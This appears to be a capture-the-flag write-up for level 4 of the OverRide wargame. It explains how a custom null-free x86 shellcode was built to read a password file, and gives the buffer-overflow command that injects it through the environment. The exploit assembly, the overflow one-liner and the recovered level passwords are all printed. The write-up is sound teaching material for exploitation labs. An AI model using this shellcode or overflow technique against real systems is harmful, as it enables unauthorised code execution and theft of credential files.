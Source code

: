 # Level 04

This program multithreaded, so lets break it down.
There is two threads,
one (the parent) that waits for user input with `gets()` explicitly asking for a shellcode
the other (the child) that waits for changes on the other thread with `wait()`.
When the first thread changes status, if the last syscall was `execve()`,
this thread kills the parent with `kill(pid, 9)`.

Basically the challenge of this program is to make our own shellcode,
rather than copy/pasting one from the internet. So we did just that!
We would need a shell code that reads the content of `/home/users/level05/.pass`
and displays it on the standard output.

```asm
push 0x00000001
push 0x00000001
push 0x00000001
push 0x00000001
push 0x00000001
push 0x00000001
push 0x00000001
push 0x00000001
push 0x00000001
push 0x00000001
push 0x00000073 ;    s
push 0x7361702e ; sap.
push 0x2f2f3530 ; //50
push 0x6c657665 ; leve
push 0x6c2f7372 ; l/sr
push 0x6573752f ; esu/
push 0x656d6f68 ; emoh
push 0x2f2f2f2f ; ////
```

These instructions are used to create a stack big enough to handle the `.pass` data.
"But why push 1's instead of 0's ?", you may ask.
We want this shellcode to be passed in the environment of the program to have more efficient testing.
The problem is that the nul bytes (`\x00`) are not accepted as valid characters in environment variables.
So we had to mak sure that no nul byte was present when doing the shellcode.

This meant replacing: `push 0x0`: opcode `6a 00`

With: `push 0x1`: opcode `6a 01`

There is no difference between `push 0x1` and `push 0x00000001`.

The data that is not 0's is the name of the file we want to open: `/home/users/level05/.pass`.
This data is written in reverse because this is a little-endian system.

Also, the last value is 0x00000073.
This is because we cannot end this string on a multiple of 4 characters.
Why? Because the last bit of the string has to be a nul byte.
But remember! We cannot push a whole null byte.
So we need to make sure that the byte that follows the last is nul.
To be sure, the string must end with a hex values that starts with `0x00...`.

```

+-----------+------------+------------+
|           | 0x00000001 | 0x00000073 |
|   stack   | 0x73736170 | 0x7361702e |
|           | 0x2e2f3530 | 0x2f2f3530 |
+-----------+------------+------------+
|           |  0 5 / .   |  0 5 / /   |
|   string  |  p a s s   |  . p a s   |
|           |  \x01      |  s         |
+-----------+------------+------------+

```

This works because, in linux, the number of `/` is irrelevent.
One is as usefull as any number.
To be sure that it wouldn't work. We can simply test with the `.pass` of `level04`:

```bash
level04@OverRide:~$ cat `echo -ne ".pass\x01"`
cat: .pass: No such file or directory
level04@OverRide:~$ cat .pass
kgv3tkEb9h2mLkRsPkXRfc2mHbjMxQzvb2FrgKkf
```

---

```asm
xor eax, eax	; eax = 0
xor ebx, ebx	; ebx = 0
xor ecx, ecx	; ecx = 0
xor edx, edx	; edx = 0
```

Again, we shouldn't have nul bytes in our code.
So instead of `mov eax, 0x0` (opcode `b8 00 00 00 00`),
we use `xor eax, eax` (opcode `31 c0`) that achives the same result.

```asm
mov al, 5		; open number
mov ebx, esp	; path pointer
mov cl, 2		; flags write/read
mov dl, 1		; mode (not used for read only)
int 0x80
```

Now we do a syscall, so our arguments are on registers.
We only write the data on the byte that is important.
`al` is the lowest byte of `ax`, which is itself the 2 lowest bytes of `eax`.
In short, `al` is the lowest byte of `eax`. As we already set our registers to 0,
we can safely put values that dont overflow a byte in `al`, thus dodging the un-needed nul bytes.
The only exception on this part of the code is `mov ebx, esp`,
but thakfully there there is no nul byt in this opcode.
`int 0x80` is used to call a syscall in 32 bits.
This whole thing is used to call `open`, `read` and then `write`.
Optionnally, you can add a call to `exit` to quit the program gracefully after it ends.

Lets test this shellcode,
for test purposes I've changed `level05` to `level04` to have access to the `.pass` file.

```bash
level04@OverRide:/tmp/level04$ ./shellcode 
kgv3tkEb9h2mLkRsPkXRfc2mHbjMxQzvb2FrgKkf
```

It works! Now we need to make it into a shellcode and execute it on the process.
The buffer is 128 bytes long, so we will start by filling it.
After we just need to put the address of the shellcode over and over as such:

`./level04 < <(python -c 'print("a" * 128 + "\x??\x??\x??\x??" * 30)')`

But what is the address of the shellcode?
It is easely findable with another program with the SAME NAME LENGTH in the environnement.

```c
int main() {
	printf("%p\n", getenv("SHELLCODE"));
}
```

Now we can execute it:

```bash
level04@OverRide:/tmp/level04$ $HOME/level04 < <(python -c 'print("a" * 128 + "\x75\xd8\xff\xff" * 30)'
)
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
child is exiting...
```

## .pass: 3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
